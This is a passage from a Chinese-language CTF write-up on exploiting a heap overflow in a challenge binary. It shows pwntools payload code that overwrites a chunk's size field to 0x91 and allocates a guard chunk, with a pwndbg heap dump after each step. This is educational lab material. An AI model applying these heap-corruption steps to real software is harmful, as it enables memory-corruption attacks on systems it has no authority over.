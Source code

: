 + **<font style="color:#13C2C2;">index4的content指针（程序的正常指向）</font>**
+ **<font style="color:#13C2C2;">index2的content指针 （通过执行payload中malloc之后的指向，参照上方代码框中的结构体）</font>**

**<font style="color:#13C2C2;">第二个malloc得到的是index为2的chunk，这与程序中的Allocate函数有关，可以回顾一下前面的IDA代码。</font>**

**<font style="color:#F5222D;">也就是说假如我们现在要fill index2的内容，那么其实上是修改index4的内容。</font>**

### 1-7、修改index4的size为0x91
```c
#为了让index4能够被放到unsortedbin中,要把它的大小改回来
payload = p64(0)*3
payload += p64(0x91)
fill(3, payload)
```

```c
pwndbg> x/50gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000021 #index0
0x555555757010:	0x0000000000000000	0x0000000000000000
0x555555757020:	0x0000000000000000	0x0000000000000021 #index1
0x555555757030:	0x0000000000000000	0x0000000000000000
0x555555757040:	0x0000000000000000	0x0000000000000021 #index2
0x555555757050:	0x0000000000000000	0x0000000000000000
0x555555757060:	0x0000000000000000	0x0000000000000021 #index3
0x555555757070:	0x0000000000000000	0x0000000000000000
0x555555757080:	0x0000000000000000	0x0000000000000091 #index4
0x555555757090:	0x0000000000000000	0x0000000000000000
.....（省略内容均为空）
0x555555757110:	0x0000000000000000	0x0000000000020ef1 #top_chunk
0x555555757120:	0x0000000000000000	0x0000000000000000
.....（省略内容均为空）
0x555555757180:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

> 程序结构体未发生变化
>

### 1-8、申请新堆块--index5
```c
#再申请一个堆块（index5）防止index4与top chunk合并了，具体原因见前面
alloc(0x80)
```

```c
pwndbg> x/50gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000021 #index0
0x555555757010:	0x0000000000000000	0x0000000000000000
0x555555757020:	0x0000000000000000	0x0000000000000021 #index1
0x555555757030:	0x0000000000000000	0x0000000000000000
0x555555757040:	0x0000000000000000	0x0000000000000021 #index2
0x555555757050:	0x0000000000000000	0x0000000000000000
0x555555757060:	0x0000000000000000	0x0000000000000021 #index3
0x555555757070:	0x0000000000000000	0x0000000000000000
0x555555757080:	0x0000000000000000	0x0000000000000091 #index4
0x555555757090:	0x0000000000000000	0x0000000000000000
.....（省略内容均为空）
0x555555757110:	0x0000000000000000	0x0000000000000091 #index5
.....（省略内容均为空）
0x5555557571a0:	0x0000000000000000	0x0000000000020e61 #top_chunk
.....（省略内容均为空）
pwndbg> 
```
